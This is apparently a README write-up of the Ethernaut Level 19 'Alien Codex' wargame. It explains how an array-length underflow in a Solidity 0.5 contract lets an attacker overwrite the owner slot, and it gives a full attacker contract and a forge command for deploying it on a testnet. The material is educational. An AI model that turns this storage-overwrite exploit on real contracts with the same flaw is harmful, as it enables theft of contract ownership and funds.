

<div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>


<br><br>
<h1><strong>Ethernaut Level 19 - Alien Codex</strong></h1>

</div>

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Objectif](#objectif)
- [The hack](#the-hack)
  - [1. Codex array underflow](#1-codex-array-underflow)
  - [2. Owner override](#2-owner-override)
- [Solution](#solution)
- [Takeaway](#takeaway)
- [Reference](#reference)

## Objectif



## The hack

At this level, we have to find a way to override the `AlienCodex` contract's owner. We can see that it inherits from OpenZeppelin's Ownable.

```javascript
import '../helpers/Ownable-05.sol';

contract AlienCodex is Ownable {`
```

So let's visualize the contract's storage layout:

| Slot Index | var name | Var Type  | Var Size                              |
| ---------- | -------- | --------- | ------------------------------------- |
| 0          | owner    | address   | 20 bytes                              |
| 0          | contact  | boolean   | 1 byte                                |
| 1          | codex    | bytes32[] | 32 bytes for array's length, then ??? |

Now, let's browse through the rest of the contract's code.

We see the following modifier used in all functions available to us except the `makeContact()` function:

```javascript
 modifier contacted() {
    assert(contact);
    _;
  }
```

Fortunately, the `makeContact()` function is public and has no access restriction, so we can easily pass this modifier. It means that the challenge's solution lies in one of the following functions: `record()`, `retract()`, or `revise()`. All those three functions are related to the `codex` array, either adding, removing, or updating its content.

Now, it is time to take another look at the contract. It turns out it is using `solidity ^0.5.0`, meaning that there are no overflow/underflow checks natively integrated into solidity yet. So how could we take advantage of this?

### 1. Codex array underflow

- the `record()` function allows us to push a new `bytes32` into the `codex` array. Nothing interesting here.
- the `revise()` function allows us to update an existing value in the `codex` array. Let's keep that in mind since we will most likely be looking at overriding the `owner` variable at some point.
- the `retract()` function allows us to remove the last `bytes32` from the `codex` array. However, it is not using `array.pop()` but rather `array.length--`, which is reducing the array size by one. And we know that there is no underflow check.

So what would happen if we call this function on an empty array? The array's length would underflow and would become equal to `2**256 - 1`. This is interesting because `2**256 - 1` is the maximum storage capacity for a contract. So thanks to the dynamic `codex` array, we can now access <b>ANY</b> slot in the Alien Codex contract's storage!

### 2. Owner override

Now that we have access to the whole contract's storage, we have to find the right index so we can call the `revise()` function and update its value.

The slot 1 is storing the length of the `codex` array. Then, the elements are stored starting at the slot equal to the hash of the slot index storing the array's length.

```java
bytes32 hash = keccak256(abi.encode(1));
codex[0] = hash;
codex[1] = hash + 1;
codex[2] = hash + 2;
...
```

Now, let's calculate the index of the `owner` variable. We know that the `owner` variable is stored at the first slot of the contract's storage. So we can calculate the index of the `owner` variable by using the following formula:

`hash + index = slot 0` so `index = slot 0 - hash`

```java
uint256 index = 0 - uint256(keccak256(abi.encode(1)));
```

All that is left to do is to call the `revise()` function with the calculated index to take ownership of the contract...

## Solution

Here is how the complete solution looks like:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

interface IAlienCodex {
    function owner() external returns (address);
    function makeContact() external;
    function retract() external;
    function revise(uint256 i, bytes32 _content) external;
}

contract AlienDecodex {
    IAlienCodex private immutable alienCodex;

    constructor(address _alienCodex) {
        alienCodex = IAlienCodex(_alienCodex);
        alienCodex.makeContact();
        alienCodex.retract();
        bytes32 hash = keccak256(abi.encode(1));
        uint256 i;

        unchecked { // volountary underflow
            i -= uint256(hash);
        }

        alienCodex.revise(i, bytes32(uint256(uint160(msg.sender))));
        require(alienCodex.owner() == msg.sender, "Hack failed");
    }
}

```

Then run the script with the following command:

```bash
forge script script/19_AlienCodex.s.sol:PoC --rpc-url sepolia --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY --watch
```

## Takeaway

- Underflow and overflow are not limited to the token's balances!
- Using `.length--` on an empty array causes an underflow and sets its length to 2\*\*256-1.
-

## Reference

- Array Members: https://docs.soliditylang.org/en/latest/types.html#array-members

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
